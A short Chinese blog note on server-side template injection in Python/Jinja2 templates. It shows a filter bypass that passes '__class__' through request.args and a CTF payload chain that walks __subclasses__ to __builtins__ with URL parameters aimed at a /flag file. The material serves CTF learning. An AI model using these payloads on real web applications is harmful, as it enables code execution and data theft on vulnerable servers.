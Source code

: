 ```yaml
---
title: SSTI
date: 2018-09-13 21:29:56
tags:
categories:
thumbnail:
---
```


# SSTI服务端模版注入

SSTI 即[服务端模板注入](https://www.cnblogs.com/tyomcat/p/5440488.html)

- Python

  - 例子

```
{{ shell }}
{%if 表达式 %}内容1{% else %}内容2{% endif %}
```

  - `__` 被过滤，我们可以考虑使用 `[]` 结合 `request`来进行绕过，比如
```
{% if ()[request.args.a]%}
```
​	url中 `/bbs?a=__class__`

  - 下面是之前的一次CTF中的SSTI绕过

```python
set chr=()__class__.__base__.__subclasses__()[59].__init__.__globals__.__builtins__.chr
# 注册chr函数
{%set chr=()[request.args.a][request.args.b][request.args.c]()[59][request.args.a1][request.args.a2][request.args.a3].chr %}
# url
a=__class__&b=__base__&c=__subclasses__&d=pop&e=/flag&a1=__init__&a2=__globals__&a3=__builtins__
```



突然发现hexo也有个模块存在注入，会对

```
{% %}
```

报错。[参见](https://github.com/hexojs/hexo/issues/2992)